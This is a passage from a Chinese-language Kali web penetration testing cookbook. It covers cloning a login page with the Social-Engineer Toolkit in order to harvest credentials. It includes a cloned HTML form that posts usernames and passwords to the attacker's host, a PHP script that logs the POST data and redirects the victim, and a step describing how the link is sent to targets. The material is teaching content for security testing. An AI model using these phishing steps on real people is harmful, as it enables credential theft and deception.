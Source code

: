 8.  现在会开始克隆，之后你会被询问是否 SET 要开启 Apache 服务器，让我们这次选择`Yes`，输入`y`并按下回车。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-1-2.jpg)
    
9.  再次按下回车。

0.  让我们测试一下页面，访问` http://192.168.56.1/`。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-1-3.jpg)
    
    现在我们拥有原始登录页面的一份精确副本。
    
1.  现在在里面输入一些用户名和密码，并点击`Login`。我们要尝试`harvester/test`。

2.  你会看到页面重定向到了原始的登录页面。现在，来到终端并输入收集器文件保存的目录，默认为 Kali 中的`/var/www/ html`：

    ```
    cd /var/www/html
    ```
    
3.  这里应该有名称为`harvester_{date and time}.txt `的文件。

4.  显示它的内容，我们会看到所有捕获的信息：

    ```
    cat harvester_2015-11-22 23:16:24.182192.txt
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-1-4.jpg)
    
    这就结束了，我们仅仅需要将连接发送给我们的目标，并让他们访问我们的伪造登录页面，来收集它们的密码。
    
### 工作原理

SET 在克隆站点的时候会创建三个文件：首先是`index.html`，这是原始页面的副本，并包含登录表单。如果我们查看 SET 在我们的 Kali 中的 `/var/www/html `创建的`index.html`的代码，我们会发现下面的代码：

```html
<form action="http://192.168.56.1/post.php" method=post> 
<br> 
Username: <input type=text name=username><br> 
Password: <input type=password name=password><br> 
<br><input type=submit value=Login><br> 
</form>
```

这里我们可以看到用户名和密码都发给了 192.168.56.1 （我们的 Kali 主机）的`post.php`，这是 SET 创建的第二个文件。这个文件所做的所有事情就是读取 POST 请求的内容并将它们写入`harvester_{date and time}.txt `文件。 SET 所创建的第三个文件储存由用户提交的信息。在向文件中写入数据之后，`<meta>`标签重定向到原始的登录页面，所以用户会认为他们输入了一些不正确的用户名或密码：

```php
<?php 
$file = 'harvester_2015-11-22 23:16:24.182192.txt'; 
file_put_contents($file, print_r($_POST, true), FILE_APPEND); 
?> 
<meta http-equiv="refresh" content="0; 
url=http://192.168.56.102/peruggia/index.php?action=login" 
/>
```
